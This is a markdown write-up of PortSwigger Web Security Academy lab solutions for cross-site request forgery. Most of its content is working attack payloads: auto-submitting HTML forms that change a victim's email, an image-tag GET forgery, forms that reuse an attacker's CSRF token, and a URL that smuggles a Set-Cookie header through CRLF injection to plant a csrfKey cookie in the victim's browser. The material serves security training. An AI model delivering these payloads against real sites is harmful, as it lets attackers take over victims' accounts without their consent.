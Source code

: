 # CSRF

- https://portswigger.net/web-security/csrf#how-to-construct-a-csrf-attack
- https://tools.nakanosec.com/csrf/

## CSRF vulnerability with no defenses

Check email change request using burp and generate csrf form using https://tools.nakanosec.com/csrf/

Due to https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests:

```
Some requests don't trigger a CORS preflight. Those are called simple requests from the obsolete CORS spec, though the Fetch spec (which now defines CORS) doesn't use that term.

The motivation is that the <form> element from HTML 4.0 (which predates cross-site XMLHttpRequest and fetch) can submit simple requests to any origin, so anyone writing a server must already be protecting against cross-site request forgery (CSRF).
```

So it is prefered to use `<form>` because it "bypasses" `CORS`

```
<html>
	<body>
		<form method="POST" action="https://0a8200510435839080008f1a003a008d.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token validation depends on request method

Application allow changing email via GET request and does not validate CSRF tokens in GET requests.

Deliver to victim:
```
<img src="https://0afd00f40477303a87a067c200da00ec.web-security-academy.net/my-account/change-email?email=pwned%40email.com" alt="Cute-cats.png"/>
```
## CSRF where token validation depends on token being present

Application skip CSRF token check if there is no token present.

Create request changing email and generate PoC CSRF form:

```
<html>
	<body>
		<form method="POST" action="https://0a9f00220461d3ad80b049b6001d00c8.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token is not tied to user session

Perform GET request to a page with CSRF token as logged in user and copy its value. (here it is `A1tFmT23frESJoZoNOABO3sECg3JY4gM`)

After that CSRF for any other user can be performed using our token.

Deliver this to victim:

```
<html>
	<body>
		<form method="POST" action="https://0aa700cd040785e182702e4600470008.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
            <input type="hidden" name="csrf" value="A1tFmT23frESJoZoNOABO3sECg3JY4gM"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token is tied to non-session cookie

CSRF tokens are separated from session, but tied to different cookie `csrfKey`. Only supplying valid `csrf token` generated for provided `csrfKey` will result in a success.

Accessing a page with a form we generate valid `csrf token` for our `csrfKey`.

Application contains cookie named `LastSearchTerm` which we can make us of in order to change `csrfKey` cookie of the victim. `LastSearchTerm` value is reflected to the response, so making a specific request will change `csrfKey` cookie.

Normal response
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=A; Secure; HttpOnly
```

Our request with payload:
```
https://0a2800fb036089008326ec5000a5004e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=UcLvcqDOpmMVcvGbc5g6oVRlR35scH1n%3b%20SameSite=None
```

Resulting response:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=UcLvcqDOpmMVcvGbc5g6oVRlR35scH1n; SameSite=None; Secure; HttpOnly
```

Deliver this payload with our pre-created `csrf` value generated with provided `csrfKey` cookie to the victim to change their email:
```
<html>
	<body>
        <!-- Perform changin csrfKey GET request -->
        <img src="https://0a2800fb036089008326ec5000a5004e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=UcLvcqDOpmMVcvGbc5g6oVRlR35scH1n%3b%20SameSite=None" alt="Redirecting..."/>  
		
        <form method="POST" action="https://0a2800fb036089008326ec5000a5004e.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
            <input type="hidden" name="csrf" value="5w3aESh30qnR4UNhe3EEcLsDfvRSdl8s"/>
		</form>
        <script>
            <!-- Wait until csrfKey is changed and make a POST request changing email -->
            window.addEventListener("load", ()=>{
                document.forms[0].submit()
            })
        </script>
	</body>
<html>
```